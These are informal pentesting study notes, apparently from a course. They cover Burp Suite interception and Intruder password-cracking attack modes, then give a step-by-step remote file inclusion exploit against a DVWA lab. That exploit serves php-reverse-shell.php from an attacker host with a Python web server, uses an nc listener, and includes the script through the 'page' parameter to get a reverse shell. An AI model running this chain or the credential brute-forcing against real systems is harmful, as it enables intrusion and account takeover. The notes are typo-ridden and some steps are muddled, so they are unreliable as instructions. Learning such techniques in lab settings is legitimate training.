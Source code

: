 # 03/05/25

to add any thing to scope use 
- right click and add to scope 

- so we did intercept the website and changed the value of money 
	- using intercept 


- intruder
- capture it on histroy 
- then send it to intruder
- Sniper attack -> one payload fire at a time one input 

- Battering ram attack-> one payload fire at all diffrent input 
- Pitchfork attack-> use in case of two as username passsword 
	- one by one 1 2
	- 34
- Cluster bomb attack -> one user all the passsowrd (  one usernmae and all passsword  )
- Cluster bomb attack
- select username input (exmap) and select passsword (exp)
- add 
-  how to identefine when password is creaked using 
- status code and length 

run nikto 


- log poising

#### File Inclusion exploiting meta 2
step 1: enable  
- under php info 
	- nano in meta ad modify it
	-  allow_url_include -On
step 2: copy file 
- copy php script file to desktop
	- cp php-reverse-shell.php /home/kali/Desktop 
	- edit make ip= target ip address (10.10.10.4)
step 3: open python sever 
- python3 -m http.server
step 4 : open nc 
- nc -lvp 1234

step 5: run this php script under  File Inclusion 
- http://10.10.10.6/dvwa/vulnerabilities/fi/?page=http://10.10.10.4:8000/php-reverse-shell.php